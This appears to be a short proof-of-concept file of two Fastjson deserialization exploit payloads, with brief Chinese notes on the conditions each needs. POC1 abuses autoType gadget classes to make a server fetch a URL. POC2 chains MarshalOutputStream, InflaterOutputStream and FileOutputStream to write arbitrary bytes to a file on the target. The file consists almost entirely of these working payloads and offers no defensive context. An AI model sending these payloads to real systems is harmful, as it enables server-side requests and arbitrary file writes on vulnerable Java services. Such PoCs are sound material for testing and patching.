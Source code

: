 # POC1

条件：使用selenium-api

'''
{"@type":"java.lang.Exception","@type":"org.joychou.DatasourceException", "dataSource": {"@type": "java.net.URL", "val": "http://127.0.0.1:8888/fastjson"}}
'''

# POC2

条件：jdk11环境

···
{
"@type": "java.lang.AutoCloseable",
"@type": "sun.rmi.server.MarshalOutputStream",
"out": {
"@type": "java.util.zip.InflaterOutputStream",
"out": {
"@type": "java.io.FileOutputStream",
"file": "/tmp/asdasd",
"append": true
},
"infl": {
"input": {
"array": "eJxLLE5JTCkGAAh5AnE=",
"limit": 14
}
},
"bufLen": "100"
},
"protocolVersion": 1
}
···
